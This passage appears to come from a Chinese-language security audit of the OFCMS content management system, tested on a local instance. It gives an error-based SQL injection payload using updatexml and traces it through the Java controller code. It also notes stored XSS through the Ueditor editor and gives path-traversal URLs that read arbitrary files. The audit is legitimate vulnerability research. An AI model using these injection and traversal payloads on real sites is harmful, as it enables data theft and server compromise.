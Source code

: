 猜测可能存在报错注入，构造payload  
  
update of_cms_api set api_name=updatexml(1,concat(0x7e,(user())),0) where api_id=2  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfS09OZHwNm65tkwiayWI7PwIM3ibSoHpkLSxywCH44AS0D2pwJLlueupaQ6YyhNcDMQIib83oSfWEZA/640?wx_fmt=png "")  
  
\ofsoft\cms\admin\controller\system\SystemGenerateController.java  
下断点分析  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfS09OZHwNm65tkwiayWI7PwVzyz3jZK9gYDRjrfr2iaw4HcSTMHGpwJibuUgXbAkF5oGHKhNN0nLZAQ/640?wx_fmt=png "")  
  
47行，F7跟进  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfS09OZHwNm65tkwiayWI7PwZax57KLKhib6L2tQgHsicKnJnYz6QtSLp9iaYGGYlegEOPvLACsL4o8BA/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfS09OZHwNm65tkwiayWI7PwvfHicwEHP2832N3iaHUIMurjN9VQ4yqCiaHUicU6qlgsxc7kpibicx0jmNGA/640?wx_fmt=png "")  
  
返回的sql参数的内容未作任何过滤，48行F7跟进  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfS09OZHwNm65tkwiayWI7PwGmtthxak8qgnEhOmw1tc7UqJPOO7uKdhricmL4kVJMhDe8q5enTVzYw/640?wx_fmt=png "")  
  
98行跟进update方法  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfS09OZHwNm65tkwiayWI7PwwiaDKamXRxv5J0ULjYkMp56mkGSoicYRo5zMuIXjhgZD0Opb4AvWQdicQ/640?wx_fmt=png "")  
  
256行直接连接数据库进行更新，最后抛出异常，报错回显出数据库用户名root  
###### 存储型XSS  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfS09OZHwNm65tkwiayWI7PwGNYwic2qfxRLoQiaKFvsT0A6QmeJN6VZGA3ibtsqnP7yFBFblU0shKiaEA/640?wx_fmt=png "")  
  
分析代码，  
  
所以这里出现存储型XSS的地方不止这一个触点儿,包括前台，Ueditor编辑器的原因。  
###### 任意文件读取  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfS09OZHwNm65tkwiayWI7PwWnv8uMUzHgkCPK9G9LnPrN9uNAcX6rOudozlWOIY4WAdzFzEQrawLA/640?wx_fmt=png "")  
  
查看文件模板，模板文件连接如下  
```
http://localhost:8099/ofcms_admin/admin/cms/template/getTemplates.html?file_name=contact.html&dir=/&dir_name=/
```  
  
可控参数dir  
,payload如下  
```
http://localhost:8099/ofcms_admin/admin/cms/template/getTemplates.html?file_name=contact.html&dir=../../../&dir_name=/
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfS09OZHwNm65tkwiayWI7PwLX66sh2k7VzDHicGictbTzGyl0iawjKGKibzyesKEgEhTKYm5Hj7DTqZ0g/640?wx_fmt=png "")  
  
控制字段file_name  
读取文件  
```
http://localhost:8099/ofcms_admin/admin/cms/template/getTemplates.html?file_name=jquery-1.10.1.min.js&dir=../../..//resource/default/static/lib&dir_name=/lib
```  
  